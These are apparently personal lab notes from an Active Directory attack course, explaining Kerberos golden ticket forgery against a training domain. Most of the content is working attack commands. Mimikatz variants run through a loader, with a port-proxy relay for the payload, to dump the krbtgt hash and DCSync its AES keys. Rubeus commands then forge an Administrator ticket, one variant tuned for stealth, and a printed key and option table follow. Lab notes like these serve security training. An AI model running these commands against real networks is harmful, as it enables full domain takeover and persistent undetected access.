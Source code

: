 A golden ticket is signed and encrypted by the hash of krbtgt account
which makes it a valid TGT ticket. The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.

> [!NOTE] **NOTE**
> As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.
> 
> In real world environments, the krbtgt hash is rarely to never changed because who wants to fuck that up

Execute mimikatz (or a variant) on DC as DA to get krbtgt hash
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"
```

Use DCSync to get AES keys for krbtgt account. This requires DA privileges (or a user that has replication rights on the domain object) and doesn't require RCE on the DC
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```


Use Rubeus to forge a Golden ticket with attributes similar to a normal TGT - **AND ALWAYS TARGET AN ACTIVE DA**
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args golden /aes256:<keys> /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

Above command generates the ticket forging command. Note that 3 LDAP
queries are sent to the DC to retrieve the values:
1. To retrieve flags for user specified in /user.
2. To retrieve /groups, /pgid, /minpassage and /maxpassage
3. To retrieve /netbios of the current domain


OPSEC Friendly forge, with manually set values
```powershell
C:\AD\Tools\Rubeus.exe golden
/aes256:<keys> /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

```
154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
```

| Option                                   | Description                                                                         |
| ---------------------------------------- | ----------------------------------------------------------------------------------- |
| golden                                   | Name of the module                                                                  |
| /aes256:154CB6624[SNIP]                  | AES256 keys of the krbtgt account. Using AES keys makes the attack more silent      |
| /user:Administrator                      | Username for which the TGT is generated                                             |
| /id:500                                  | User RID (retrieved from the DC) (Default 500)                                      |
| /pgid:513                                | Primary Group ID (retrieved from the DC) (Default 513)                              |
| /groups:544,512,520,513                  | Groups the user is a member of (retrieved from the DC) (Default 520,512,513,519,518 |
| /domain:dollarcorp.moneycorp.local       | FQDN of the domain (retrieved from the DC)                                          |
| /sid:S-1-5-21-71981[SNIP]                | SID of the current domain                                                           |
| /pwdlastset:"11/11/2022 6:33:55 AM"      | The PasswordLastSet for the user (retrieved from the DC)                            |
| /minpassage:1                            | “Minimum Password Age” in days (retrieved from the DC)                              |
| /logoncount:2453                         | Logon Count for the user (retrieved from the DC)                                    |
| /netbios:dcorp                           | NetBIOS name of the domain (retrieved from the DC)                                  |
| /dc:DCORP-DC.dollarcorp.moneycorp.local  | FQDN of the DC (retrieved from the DC)                                              |
| /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD | UserAccountControl Flags (retrieved from the DC)                                    |
| /ptt                                     | Inject in the current process                                                       |


![[Pasted image 20250508054121.png]]